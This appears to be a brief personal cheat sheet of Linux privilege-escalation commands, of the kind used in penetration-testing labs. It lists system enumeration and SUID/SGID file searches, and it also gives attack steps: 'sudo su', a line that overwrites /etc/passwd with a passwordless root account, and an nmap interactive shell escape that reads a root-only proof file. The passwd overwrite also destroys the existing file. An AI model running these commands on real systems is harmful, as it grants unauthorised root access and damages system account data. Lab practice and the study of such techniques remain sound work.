 
# Linux Privilage Escalation Notes

* **Guide**

https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

* **General Command**

Kernel version detection:
```
cat /etc/issue
uname -a
cat /proc/version
```

Find Suit & Guid Bit & Writeable Files
```
find / -perm -u=s -type f 2>/dev/null
find / -perm -g=s -type f 2>/dev/null
find / -perm -2 ! -type l -ls 2>/dev/null @Yazma yetkisi olan dosyalar
```

Try :)
```
sudo su
```

Edit passwd file 
```
echo root::0:0:root:/root:/bin/bash > /etc/passwd
su
```

Nmap permissions

```
sudo nmap --interactive
!id
!cat /root/proof.txt
```
